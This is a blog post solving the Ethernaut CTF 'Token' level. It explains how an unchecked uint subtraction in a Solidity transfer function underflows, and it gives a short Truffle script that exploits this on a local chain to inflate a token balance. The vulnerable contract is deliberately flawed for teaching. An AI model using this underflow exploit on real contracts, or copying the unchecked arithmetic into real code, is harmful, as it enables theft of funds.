 Title: Solving OpenZeppelin's Ethernaut CTF - Token
Date: 2018-06-10
Tags: ethereum, solidity, ctf, smart contracts
Slug: token-challenge-solution
Summary: Sixth post of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.openzeppelin.com/){:target="_blank",:rel="noopener"}. In Token, we hack a basic token contract and manage our way to earn a huge amount of ethers.

## Introduction
The [Token contract](https://ethernaut.openzeppelin.com/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"} simulates a basic token built on the Ethereum blockchain. It is not a full [ERC20](https://theethereum.wiki/w/index.php/ERC20_Token_Standard), but hey, you gotta start somewhere. Our main goal is to 'steal' as many tokens as we can from the contract, so let's dive right into it.

## The Token contract
The contract is deployed with some initial supply of tokens, as you can see in its constructor. That initial supply is both set as the total supply of tokens and saved as the balance of the contract's deployer.
~~~solidity
function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
}
~~~

The function `balanceOf` lets any caller see how many token a certain address has.
~~~solidity
function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
}
~~~

Finally, the `transfer` function is where the core business logic of the contract lives, and where we're gonna aim our weapons at:
~~~solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
~~~

It basically allows any caller to 'send' (i.e. change the balances in the contract's storage) a certain amount (`_value`) of tokens from his/her address to the one passed as an argument (`_to`).

While the first line *tries* to ensure the caller has enough tokens to make the transaction, lines 2 and 3 actually implement the swap between the source and destination addresses.

Focus on line 1 for now: `require(balances[msg.sender] - _value >= 0);`.

We know that `balances[msg.sender]` and `_value` are both `uint` variables, right ? Well, then you're witnessing a real Solidity underflow, which results from unsafely extracting an `uint` from another.Let me put it straight. The difference between two `uint`, is another `uint`, meaning that the difference will always be equal or greater than zero! Thus, the condition `balances[msg.sender] - _value >= 0` will always evaluate to true.

Following that line of thought, the second line of the function is where our balance is decreased. However, we can underflow that as well!. According to the challenge text, our account starts with 20 tokens. What if we tried transferred 21 tokens ?. The resulting operation would look like:

~~~solidity
balances[msg.sender] = 20 - 21;
~~~

Since a `uint` cannot take the value -1, instead the variable underflows and the result of the operation, stored as the caller's balance, is 2^256 - 1.

Having analyzed the contract's vulnerability, include its code in `contracts/Token.sol` and deploy it to the local blockchain by including the following snippet in `migrations/2_deploy_contracts.js`.

~~~javascript
let Token = artifacts.require('./Token.sol')
const TOKEN_INITIAL_SUPPLY = 20
module.exports = deployer => {
    deployer.deploy(Token, TOKEN_INITIAL_SUPPLY)
}
~~~

Then run `npx truffle migrate`.

## The exploit
In this case, the vulnerability is easy to exploit. The exploit consists of just calling the `transfer` function with a value greater than 20.
~~~javascript
const TokenContract = artifacts.require('Token')
const assert = require('assert')

async function execute(callback) {

    let contract = await TokenContract.deployed()

    let balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance, 20)
    console.log(`Initial balance: ${balance}`)

    await contract.transfer(web3.eth.accounts[1], 21)

    balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance > 20, true)
    console.log(`Final balance: ${balance} tokens`)

}

module.exports = execute
~~~

That's it. After running `npx truffle exec exploits/token.exploit.js`, you should see that the balance of the account if far greater than 20 tokens.

You can also [find the exploit code at my Github repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/token.exploit.js). Although you might find some differences between the code in the repository and the one included in this post, the exploits work exactly the same. I made some changes to the exploit written here to make it simpler and clearer.

Thanks for reading! In the [next part](https://notonlyowner.com/solving-openzeppelin-ethernaut-ctf-delegation) of these series, we will tackle the [Delegation challenge](https://ethernaut.openzeppelin.com/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:rel="noopener"} and study the dangers of using a low-level call such as `delegatecall` in Solidity.
